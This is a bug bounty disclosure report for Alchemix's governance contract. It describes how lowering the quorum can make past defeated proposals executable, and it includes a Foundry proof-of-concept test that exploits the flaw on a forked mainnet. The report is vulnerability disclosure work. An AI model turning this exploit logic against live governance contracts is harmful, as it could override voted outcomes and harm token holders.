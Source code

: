 
# `AlchemixGovernor` updates to quorum can affect past defeated proposals

Submitted on Wed May 08 2024 07:10:54 GMT-0400 (Atlantic Standard Time) by @Lastc0de for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30926

Report type: Smart Contract

Report severity: Low

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
In governance, there are usually proposals that for some reason (such as lack of quorum, and the number of votes ) defetated. This issue concerns instances of Governor that use the module `GovernorVotesQuorumFraction` In your protocol it is known as L2GovernorVotesQuorumFraction :

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/governance/L2GovernorVotesQuorumFraction.sol

GovernorVotesQuorumFraction: Combines with GovernorVotes to set the quorum as a fraction of the total token supply.
AlchemixGovernor inherits this module

~~~
contract AlchemixGovernor is L2Governor, L2GovernorVotes, L2GovernorVotesQuorumFraction /* @AUDIT */, L2GovernorCountingSimple
~~~
So this make vulnerable AlchemixGovernor contract.

If this report is unclear to you, refer to the reference link

## Vulnerability Details

Vulnerable contract is `AlchemixGovernor.sol` && `L2GovernorVotesQuorumFraction.sol`

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/governance/L2GovernorVotesQuorumFraction.sol

Vulnerable function is  `quorum()` :

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/governance/L2GovernorVotesQuorumFraction.sol#L49C1-L51C6
~~~
    function quorum(uint256 blockTimestamp) public view virtual override returns (uint256) {
        return (token.getPastTotalSupply(blockTimestamp) * quorumNumerator()) / quorumDenominator();
    }
~~~
The  `token.getPastTotalSupply(blockNumber)` call will not be optimized the same way and, A mechanism that determines quorum requirements as a percentage of the voting token's total supply. when a proposal is passed to lower the quorum requirement, past proposals may become executable if they had been defeated only due to lack of quorum, and the number of votes it received meets the new quorum requirement.

## Impact Details
Past proposals may become executable if they had been defeated only due to lack of quorum, and the number of votes it received meets the new quorum requirement.

## References

https://github.com/OpenZeppelin/openzeppelin-contracts/security/advisories/GHSA-xrc4-737v-9q75

https://docs.openzeppelin.com/contracts/4.x/api/governance
        
## Proof of concept
## Proof of Concept
* To manually prank the executer and call a function with `onlyGovernance` modifier we need add calldata to queue:

1- Add the following function ro `L2Governor.sol` file
~~~
        function pushCalldata(bytes calldata hash) public {
        _governanceCall.pushBack(keccak256(hash));
    }
~~~

2- Add following function to ` AlchemixGovernor.t.sol` file
~~~
function test_Execute_Defeated_Proposal_After_Update_Quorum() public {
    // Random users
        address jimmy = 0xc8dF939C61A33Aa83435bddcE76e6179f4653302;
    address sara = 0x72414Fe88759857e69797B4558a1f1475F32A462;
   
        createVeAlcx(sara, 5000e18, MAXTIME, false);
        createVeAlcx(jimmy, 15_000e18, MAXTIME, false);
       
        assertFalse(voter.isWhitelisted(usdc));

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();

        hevm.warp(block.timestamp + 2 days); // delay

        uint256 quorum = governor.quorum(block.timestamp);
        uint256 votingPower = veALCX.getVotes(admin);

        assertGt(votingPower, quorum, "voting power should be greater than quorum");

        // propose
        hevm.startPrank(admin);
        uint256 pid = governor.propose(t, v, c, d, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote by sara
        hevm.startPrank(sara);
        governor.castVote(pid, 1);
        hevm.stopPrank();
        // vote by jimmy
        hevm.startPrank(jimmy);
        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // execute
        hevm.startPrank(admin);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);

        hevm.warp(block.timestamp + governor.votingPeriod() + 10); // update timestamp
        hevm.stopPrank();
       
        // Update quorum numerator with governance

        address executor = address(governor.timelock());

        // Prepare the calldata
        bytes memory calldataRequired = abi.encodeWithSelector(
        bytes4(keccak256("updateQuorumNumerator(uint256)")),1000);

        // Add it to the queue
        governor.pushCalldata(calldataRequired);

        hevm.startPrank(address(executor));

        // Impersonate the executor and call the function
        // Update.
        governor.updateQuorumNumerator(1000);

        hevm.stopPrank();

        // Execute past defeated Proposal
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);


        assertTrue(voter.isWhitelisted(usdc));
    }
~~~

3- Run test
~~~
forge test --match-test "test_Execute_Defeated_Proposal_After_Update_Quorum" --fork-url https://eth-mainnet.public.blastapi.io -vvvv
~~~